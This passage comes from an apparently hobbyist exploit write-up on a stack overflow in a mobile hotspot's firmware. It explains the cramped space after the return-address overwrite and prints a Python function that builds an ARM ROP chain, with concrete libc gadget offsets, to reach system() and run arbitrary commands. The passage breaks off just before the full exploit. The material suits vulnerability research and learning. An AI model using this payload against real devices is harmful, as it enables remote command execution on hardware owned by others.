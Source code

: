This is less useful than the previous stack overflow as we have limited space after we overflow the return address, making exploitation with a ROP-chain a bit tricker. The hotspot also gets killed which is quite inconvenient as its basically a one-and-done exploit.

## Exploit

I decided to try and exploit this despite it not really being of any use at all, I wanted to see if it was possible to find a ROP-chain that could run **system** in the constrained space. 

Turns out is is possible, but it gets scarily close to the length check!

```
-python
def generate_smaller_size_stack_overflow_ROP_payload(pad_count, libc_base):
	system_libc = libc_base + 0x4b4fc
	exit_libc = libc_base + 0x46c30

	# ROP Chain
	payload = pad_count * b'e'
	
	# Do the stack overflow and execute arbitrary command
	payload += (libc_base + 0x46028).to_bytes(4, byteorder='little') # pc

	# | 0x46028 | cpy r0,r6 | ldmia sp!,{r4,r5,r6,pc}
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r4
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r5
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r6
	payload += (libc_base + 0x291f4).to_bytes(4, byteorder='little') # pc

	# | 0x291f4 | add r0,r0,#0x1 | ldmia sp!,{r4,pc}
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r4
	payload += (libc_base + 0x2f6bc).to_bytes(4, byteorder='little') # pc

	# | 0x2f6bc | str r3,[r0,#0x50] | ldmiane sp!,{r4,r5,r6,r7,pc}
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r4
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r5
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r6
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r7
	payload += (system_libc).to_bytes(4, byteorder='little') # pc

	return payload
```

And here is the exploit, this new method gives us a decent bit of space for our command as well:
